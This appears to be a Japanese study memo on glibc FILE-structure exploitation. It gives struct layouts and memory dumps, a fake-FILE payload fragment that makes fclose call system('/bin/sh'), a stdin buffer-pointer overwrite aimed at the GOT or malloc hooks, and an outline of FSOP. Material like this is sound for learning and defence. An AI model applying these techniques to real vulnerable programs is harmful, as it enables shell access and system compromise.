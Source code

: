 ファイル・ポインタや標準入出力に関連するFILE構造体を利用したexploitテクニックのメモ。

# FILE構造体の基本情報

_IO_FILE、_IO_FILE_plus、_IO_jump_tの3つの構造体の定義とメモリーレイアウトをざっくり理解しておく。

* _IO_FILE
```
struct _IO_FILE {
  int _flags;           /* High-order word is _IO_MAGIC; rest is flags. */
#define _IO_file_flags _flags

  /* The following pointers correspond to the C++ streambuf protocol. */
  /* Note:  Tk uses the _IO_read_ptr and _IO_read_end fields directly. */
  char* _IO_read_ptr;   /* Current read pointer */
  char* _IO_read_end;   /* End of get area. */
  char* _IO_read_base;  /* Start of putback+get area. */
  char* _IO_write_base; /* Start of put area. */
  char* _IO_write_ptr;  /* Current put pointer. */
  char* _IO_write_end;  /* End of put area. */
  char* _IO_buf_base;   /* Start of reserve area. */
  char* _IO_buf_end;    /* End of reserve area. */
  /* The following fields are used to support backing up and undo. */
  char *_IO_save_base; /* Pointer to start of non-current get area. */
  char *_IO_backup_base;  /* Pointer to first valid character of backup area */
  char *_IO_save_end; /* Pointer to end of non-current get area. */

  struct _IO_marker *_markers;

  struct _IO_FILE *_chain;

  int _fileno;
#if 0
  int _blksize;
#else
  int _flags2;
#endif
  _IO_off_t _old_offset; /* This used to be _offset but it's too small.  */

#define __HAVE_COLUMN /* temporary */
  /* 1+column number of pbase(); 0 is unknown. */
  unsigned short _cur_column;
  signed char _vtable_offset;
  char _shortbuf[1];

  /*  char* _save_gptr;  char* _save_egptr; */

  _IO_lock_t *_lock;
#ifdef _IO_USE_OLD_IO_FILE
};

```

* _IO_FILE_plus
```
struct _IO_FILE_plus
{
  FILE file;
  const struct _IO_jump_t *vtable;
};
```

* _IO_jump_t 関数ポインタのテーブルになっている
```
struct _IO_jump_t
{
    JUMP_FIELD(size_t, __dummy);
    JUMP_FIELD(size_t, __dummy2);
    JUMP_FIELD(_IO_finish_t, __finish);
    JUMP_FIELD(_IO_overflow_t, __overflow);
    JUMP_FIELD(_IO_underflow_t, __underflow);
    JUMP_FIELD(_IO_underflow_t, __uflow);
    JUMP_FIELD(_IO_pbackfail_t, __pbackfail);
    /* showmany */
    JUMP_FIELD(_IO_xsputn_t, __xsputn);
    JUMP_FIELD(_IO_xsgetn_t, __xsgetn);
    JUMP_FIELD(_IO_seekoff_t, __seekoff);
    JUMP_FIELD(_IO_seekpos_t, __seekpos);
    JUMP_FIELD(_IO_setbuf_t, __setbuf);
    JUMP_FIELD(_IO_sync_t, __sync);
    JUMP_FIELD(_IO_doallocate_t, __doallocate);
    JUMP_FIELD(_IO_read_t, __read);
    JUMP_FIELD(_IO_write_t, __write);
    JUMP_FIELD(_IO_seek_t, __seek);
    JUMP_FIELD(_IO_close_t, __close);
    JUMP_FIELD(_IO_stat_t, __stat);
    JUMP_FIELD(_IO_showmanyc_t, __showmanyc);
    JUMP_FIELD(_IO_imbue_t, __imbue);
};
```

_IO_FILE、_IO_FILE_plus、_IO_jump_tの3つの繋がりはこの図が分かり易い。
![glibc-file-vtable](https://user-images.githubusercontent.com/9530961/39658505-3ae004b0-5050-11e8-9826-0ba092a002fd.png)

各々の_IO_FILEは_IO_list_allから連なるlinked listになっている。
![2018-05-05 11 14 51](https://user-images.githubusercontent.com/9530961/39658801-a1d1666e-5055-11e8-9b73-9ad947e3825d.png)

メモリーレイアウトは以下の通り。

* stdoutのFILE構造体メモリーレイアウト
```
0x7ffff7dd4400 <_IO_2_1_stdout_>:	0x00000000fbad2887	0x00007ffff7dd4483 flags / _IO_read_ptr
0x7ffff7dd4410 <_IO_2_1_stdout_+16>:	0x00007ffff7dd4483	0x00007ffff7dd4483 _IO_read_end / _IO_read_base
0x7ffff7dd4420 <_IO_2_1_stdout_+32>:	0x00007ffff7dd4483	0x00007ffff7dd4483 _IO_write_base / _IO_write_ptr
0x7ffff7dd4430 <_IO_2_1_stdout_+48>:	0x00007ffff7dd4483	0x00007ffff7dd4483 _IO_write_end / _IO_buf_base
0x7ffff7dd4440 <_IO_2_1_stdout_+64>:	0x00007ffff7dd4484	0x0000000000000000 _IO_buf_end / _IO_save_base
0x7ffff7dd4450 <_IO_2_1_stdout_+80>:	0x0000000000000000	0x0000000000000000 _IO_backup_base / _IO_save_end
0x7ffff7dd4460 <_IO_2_1_stdout_+96>:	0x0000000000000000	0x00007ffff7dd4640 *_markers / *_chain 次の_IO_FILE structへのポインタ
0x7ffff7dd4470 <_IO_2_1_stdout_+112>:	0x0000000000000001	0xffffffffffffffff _fileno / ?
0x7ffff7dd4480 <_IO_2_1_stdout_+128>:	0x000000000a000000	0x00007ffff7dd59e0 ? / *_lock
0x7ffff7dd4490 <_IO_2_1_stdout_+144>:	0xffffffffffffffff	0x0000000000000000 
0x7ffff7dd44a0 <_IO_2_1_stdout_+160>:	0x00007ffff7dd44e0	0x0000000000000000
0x7ffff7dd44b0 <_IO_2_1_stdout_+176>:	0x0000000000000000	0x0000000000000000
0x7ffff7dd44c0 <_IO_2_1_stdout_+192>:	0x00000000ffffffff	0x0000000000000000
0x7ffff7dd44d0 <_IO_2_1_stdout_+208>:	0x0000000000000000	0x00007ffff7dd26a0 _IO_jump_tへのポインタ
```

* _IO_jump_tのメモリーレイアウト
```
0x7ffff7dd26a0 <_IO_file_jumps>:	0x0000000000000000	0x0000000000000000 __dummy / __dummy2
0x7ffff7dd26b0 <_IO_file_jumps+16>:	0x00007ffff7a8ac80	0x00007ffff7a8b6d0 
0x7ffff7dd26c0 <_IO_file_jumps+32>:	0x00007ffff7a8b480	0x00007ffff7a8c530
0x7ffff7dd26d0 <_IO_file_jumps+48>:	0x00007ffff7a8d6e0	0x00007ffff7a8a500
0x7ffff7dd26e0 <_IO_file_jumps+64>:	0x00007ffff7a8a210	0x00007ffff7a89870
0x7ffff7dd26f0 <_IO_file_jumps+80>:	0x00007ffff7a8caa0	0x00007ffff7a897e0
0x7ffff7dd2700 <_IO_file_jumps+96>:	0x00007ffff7a89710	0x00007ffff7a7e7b0
0x7ffff7dd2710 <_IO_file_jumps+112>:	0x00007ffff7a8a4e0	0x00007ffff7a89ed0
0x7ffff7dd2720 <_IO_file_jumps+128>:	0x00007ffff7a89cd0	0x00007ffff7a897d0
0x7ffff7dd2730 <_IO_file_jumps+144>:	0x00007ffff7a89ec0	0x00007ffff7a8d840
0x7ffff7dd2740 <_IO_file_jumps+160>:	0x00007ffff7a8d850	0x0000000000000000
```



# Exploit
* ファイル・ポインタの上書き

ファイル・ポインタを上書きできる場合、FILE構造体を偽装し、_IO_jump_tに任意の関数を仕込んでおくにより、fclose(fp)などが呼ばれた時にその関数を実行できる。下の例では、system("/bin/sh")が実行される。なおFILE構造体のflagsに第一引数（この場合は"/bin/sh¥0"）をセットしておくことが可能。

```
    # fake _IO_FILE
    buf = "/bin/sh\0"
    buf += p(0)*16
    buf += p(addr) # *_lock: 有効なアドレスを入れておく、何でもよいわけじゃないらしい
    buf += p(0)*9
    buf += p(jump_table) # _IO_file_jumpsへのアドレス
    # fake _IO_file_jumps
    buf += p(0)*2
    buf += p(system)*19
```

* _IO_buf_base/_IO_buf_endの上書き

stdinの_IO_buf_base/_IO_buf_endを上書きできる場合、scanf/fgets/gets等の関数の書き込み先をコントロールできる。
下の例だと0x602000に任意のデータを書き込める。書き込み先をGOTやfree_hook/malloc_hookにしておくことにより、one gadget rceなどを仕込むことができる。

```
0x7ffff7dd4640 <_IO_2_1_stdin_>:	0x00000000fbad208b	0x00007ffff7dd46c3
0x7ffff7dd4650 <_IO_2_1_stdin_+16>:	0x00007ffff7dd46c3	0x00007ffff7dd46c3
0x7ffff7dd4660 <_IO_2_1_stdin_+32>:	0x00007ffff7dd46c3	0x00007ffff7dd46c3
0x7ffff7dd4670 <_IO_2_1_stdin_+48>:	0x00007ffff7dd46c3	0x0000000000602000 _IO_write_end / _IO_buf_base
0x7ffff7dd4680 <_IO_2_1_stdin_+64>:	0x0000000000602100	0x0000000000000000 _IO_buf_end / _IO_save_base
0x7ffff7dd4690 <_IO_2_1_stdin_+80>:	0x0000000000000000	0x0000000000000000
0x7ffff7dd46a0 <_IO_2_1_stdin_+96>:	0x0000000000000000	0x0000000000000000
0x7ffff7dd46b0 <_IO_2_1_stdin_+112>:	0x0000000000000000	0xffffffffffffffff
0x7ffff7dd46c0 <_IO_2_1_stdin_+128>:	0x0000000000000000	0x00007ffff7dd59f0
0x7ffff7dd46d0 <_IO_2_1_stdin_+144>:	0xffffffffffffffff	0x0000000000000000
0x7ffff7dd46e0 <_IO_2_1_stdin_+160>:	0x00007ffff7dd4720	0x0000000000000000
0x7ffff7dd46f0 <_IO_2_1_stdin_+176>:	0x0000000000000000	0x0000000000000000
0x7ffff7dd4700 <_IO_2_1_stdin_+192>:	0x0000000000000000	0x0000000000000000
0x7ffff7dd4710 <_IO_2_1_stdin_+208>:	0x0000000000000000	0x00007ffff7dd26a0
```

* FSOP(File Stream Oriented Programming)

angelboy氏の資料に記載のテクニック。
1. 事前に_IO_list_allを上書きし、偽のFILE構造体のlinked listに繋いでおく。
2. abort()が起きると、_IO_flush_all_lockpにより、_IO_list_allに連なる全てのFILE構造体のjump tableにある__overflowにセットされている関数が実行される。

![2018-05-05 11 35 14](https://user-images.githubusercontent.com/9530961/39658935-7d1046bc-5058-11e8-80fa-a823164fb518.png)

![2018-05-05 11 33 19](https://user-images.githubusercontent.com/9530961/39658922-365108ce-5058-11e8-9e33-5603892bf232.png)

# 参考
* [Play with FILE Structure - Yet Another Binary Exploit Technique](https://www.slideshare.net/AngelBoy1/play-with-file-structure-yet-another-binary-exploit-technique)
* [abusing the FILE structure](https://outflux.net/blog/archives/2011/12/22/abusing-the-file-structure/)
* [libioP.h source code [glibc/libio/libioP.h] - Woboq Code Browser](https://code.woboq.org/userspace/glibc/libio/libioP.h.html)

